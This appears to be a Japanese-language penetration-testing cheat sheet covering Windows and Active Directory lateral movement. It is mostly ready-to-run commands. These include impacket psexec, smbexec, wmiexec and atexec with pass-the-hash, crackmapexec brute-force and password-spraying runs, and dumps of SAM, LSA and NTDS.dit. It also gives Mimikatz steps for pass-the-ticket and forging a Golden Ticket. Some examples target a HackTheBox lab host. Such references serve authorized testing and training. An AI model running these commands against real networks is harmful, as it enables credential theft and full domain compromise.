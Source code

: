 ## 目次

1. [psexec - smbexec - wmiexec - atexec](#psexec---smbexec---wmiexec---atexec)
    - [psexec](#psexec)
    - [smbexec](#smbexec)
    - [wmiexec](#wmiexec)
    - [atexec](#atexec)
2. [winrs](#winrs)
3. [crackmapexec](#crackmapexec)
    - [crackmapexec 基本コマンド](#crackmapexec-基本コマンド)
    - [crackmapexec モジュール](#crackmapexec-モジュール)
4. [Pass the ticket](#pass-the-ticket)
5. [Golden Ticket](#golden-ticket)

## psexec - smbexec - wmiexec - atexec

ここでは、主に資格情報やハッシュを用いてリモートでコマンドを実行するためのツールについて説明します。

### psexec

`psexec`は、管理者権限を持つユーザーがリモートシステムでコマンドを実行できるツールです。

```bash
psexec.py <domain>/<user>:<password1>@<IP>
```

ユーザーはリモートシステムの管理共有（例：C$）への書き込みアクセス権を持っている必要があり、その後、セッションを取得できます。

#### ハッシュ使用例

パスワードの代わりにNTLMハッシュを使用する場合、以下のようにコマンドを実行します。

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

他にも、以下のように実行できます。

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@jeeves.htb cmd.exe
```

### smbexec

`smbexec`は、`psexec`に似ていますが、リモートでコマンドを実行する際にSMB（Server Message Block）プロトコルを使用します。

```bash
smbexec.py <domain>/<user>:<password1>@<IP>
```

また、以下のようにハッシュを使用することもできます。

```bash
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### wmiexec

`wmiexec`は、Windows Management Instrumentation（WMI）を使用してリモートシステムでコマンドを実行するツールです。

```bash
wmiexec.py <domain>/<user>:<password1>@<IP>
```

ハッシュを使用する場合は、以下のように実行します。

```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### atexec

`atexec`は、Windowsのタスクスケジューラを利用してコマンドをリモート実行するツールです。ハッシュを使用して実行する場合は、以下のコマンドを使います。

```bash
atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

---

## winrs

`winrs`は、Windows Remote Shellを使用してリモートシステムでコマンドを実行するためのツールです。以下のコマンドで、ユーザーがシステムにアクセス可能か確認し、その後リバースシェルを実行できます。

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
```

このコマンドは、Windowsセッション内で実行します。

---

## crackmapexec

`crackmapexec`は、ネットワーク上の複数のホストに対して様々な攻撃を自動化するためのツールです。

### crackmapexec 基本コマンド

以下は、`crackmapexec`の基本的な使用例です。

```bash
crackmapexec smb jeeves.htb -u Administrator -p passwords
```

`crackmapexec`は、`smb`, `winrm`, `mssql`, `ldap`, `ftp`, `ssh`, `rdp`などのサービスに対して利用可能です。次に、SMBサービスに対してブルートフォース攻撃を行うコマンド例を示します。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # "Pwned"と表示されます
```

以下は、SMBに対するパスワードスプレー攻撃の例です。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success
```

その他の有用なコマンド例：

```bash
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares # 共有フォルダのリストを表示
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks # ディスク情報の取得
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users # DCのユーザー情報を取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions # アクティブセッションの確認
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol # パスワードポリシーの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam # SAMハッシュの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa # LSAシークレットのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds # NTDS.ditファイルのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} # 特定のグループに属するユーザーの列挙
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' # コマンドの実行, "-x"はcmd, "-X"はpowershellコマンド用
```

### crackmapexec モジュール

`crackmapexec`には、様々なモジュールがあります。以下は、モジュールに関するコマンド例です。

```bash
crackmapexec smb -L # モジュールのリストを表示
crackmapexec smb -M mimikatx --options # モジュールの必要なオプションを表示
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz # デフォルトコマンドの実行
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' # 特定のコマンドを実行
```

---

## Pass the ticket

`Pass the ticket`攻撃は、Mimikatzを用いてKerberosチケットを取得し、それを他のシステムで使用する攻撃です。

```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

---

## Golden Ticket

`Golden Ticket`は、ドメインコントローラ上の`krbtgt`アカウントの秘密情報を使用して、任意のユーザーとして認証を行う攻撃です。

```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:
```

